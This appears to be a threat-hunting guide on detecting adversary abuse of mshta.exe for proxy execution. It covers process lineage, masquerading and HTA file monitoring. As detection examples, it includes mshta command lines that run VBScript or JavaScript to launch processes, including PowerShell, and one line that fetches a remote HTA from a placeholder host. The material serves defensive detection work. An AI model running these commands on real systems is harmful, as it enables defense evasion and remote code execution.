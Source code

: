 ```yaml
---
title: mshta Hunt
category: Defense Evasion
tags: [TECHNIQUE T1218.005, System Binary Proxy Execution, HTA, windows]
---
```

Mshta is attractive to adversaries both in the early and latter stages of an infection because it enables them to proxy the execution of arbitrary code through a trusted utility.
# Process and command-line monitoring
## Monitor process execution and command-line parameters for suspicious use of Mshta
Look for Mshta being executed with command lines containing protocol handlers like javascript, vbscript, about, etc.

**Example:**

```mshta vbscript:CreateObject("WScript.Shell").Run("notepad.exe")(window.close)```

Collect parent-child process relationships and identify any suspicious process lineage patterns involving Mshta.

**Example:**

Parent process: winword.exe

Child process: mshta.exe

# Monitor process metadata
Internal process name: mshta.exe
	Apparent filename: calc.exe

# File monitoring and network connections
Monitor file activity for the presence of Mshta-related files, such as HTA files (ending with .hta extension).
Look for Mshta executing remotely hosted HTA content via URIs or UNC paths.
	Command line: mshta http://example.com/malicious.hta

# Suspicious process ancestry
For example, an adversary conducting a phishing attack might embed a macro in a Microsoft Word document that executes a malicious HTA file.

# Parent process: winword.exe
Child process: mshta.exe

# Mshta masquerading
```C:\Test\notepad.exe "javascript:a=new ActiveXObject("WScript.Shell");a.Run("powershell.``` 

```exe%20-nop%20-Command%20Write-Host%20f83a289e-8218-459c-9ddb-ccd3b72c732a;%20Start-Sleep%20-Seconds%202;%20exit",0,true);close();"```

# Network connections and HTA content
File extension: .pdf
MIME type: application/hta

# False positive mitigation
Fine-tune detection logic to account for legitimate and expected use of Mshta in your environment.

# Reference
https://redcanary.com/threat-detection-report/techniques/mshta/#:~:text=Suspicious%20process%20ancestry,executes%20a%20malicious%20HTA%20file.